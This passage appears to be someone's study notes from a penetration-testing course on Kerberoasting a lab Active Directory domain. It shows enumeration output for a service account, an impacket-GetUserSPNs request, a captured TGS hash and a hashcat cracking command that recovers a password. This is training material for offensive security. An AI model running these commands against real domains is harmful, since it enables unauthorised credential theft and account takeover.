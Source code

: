 ```
[*] Searching path 'LDAP://DC1.corp.com/DC=corp,DC=com' for '(&(samAccountType=805306368)(servicePrincipalName=*)(!samAccountName=krbtgt)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))'

[*] Total kerberoastable users : 1


[*] SamAccountName         : iis_service
[*] DistinguishedName      : CN=iis_service,CN=Users,DC=corp,DC=com
[*] ServicePrincipalName   : HTTP/web04.corp.com:80
[*] PwdLastSet             : 9/7/2022 5:38:43 AM
[*] Supported ETypes       : RC4_HMAC_DEFAULT
[*] Hash written to C:\Tools\hashes.kerberoast
```
#### Step 3: Copy Hashes to Kali and Identify Hashcat Mode
###### Command: `hashcat --help | grep -i "Kerberos"`
Result: 13100

#### Step 3: Crack Dat Hash
###### Command: `sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force`
Result: 
`Strawberry1`

### Kerberoasting from Linux  
#### Step 1: Use `impacket-GetUserSPNs` to obtain TGS-REP hash
###### Command: `sudo impacket-GetUserSPNs -request -dc-ip 192.168.50.70 corp.com/pete`
```
kali@kali:~$ sudo impacket-GetUserSPNs -request -dc-ip 192.168.50.70 corp.com/pete                                      
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Password:
ServicePrincipalName    Name         MemberOf  PasswordLastSet             LastLogon  Delegation 
----------------------  -----------  --------  --------------------------  ---------  ----------
HTTP/web04.corp.com:80  iis_service            2022-09-07 08:38:43.411468  <never>               


[-] CCache file is not found. Skipping...
$krb5tgs$23$*iis_service$CORP.COM$corp.com/iis_service*$21b427f7d7befca7abfe9fa79ce4de60$ac1459588a99d36fb31cee7aefb03cd740e9cc6d9816806cc1ea44b147384afb551723719a6d3b960adf6b2ce4e2741f7d0ec27a87c4c8bb4e5b1bb455714d3dd52c16a4e4c242df94897994ec0087cf5cfb16c2cb64439d514241eec...
```

**NOTE: If impacket-GetUserSPNs throws the error "KRB_AP_ERR_SKEW(Clock skew too great)," we need to synchronize the time of the Kali machine with the domain controller. We can use _ntpdate_[3](https://portal.offsec.com/courses/pen-200-44065/learning/attacking-active-directory-authentication-46102/performing-attacks-on-active-directory-authentication-46172/kerberoasting-46108#fn-local_id_66-3) or _rdate_[4](https://portal.offsec.com/courses/pen-200-44065/learning/attacking-active-directory-authentication-46102/performing-attacks-on-active-directory-authentication-46172/kerberoasting-46108#fn-local_id_66-4) to do so.**
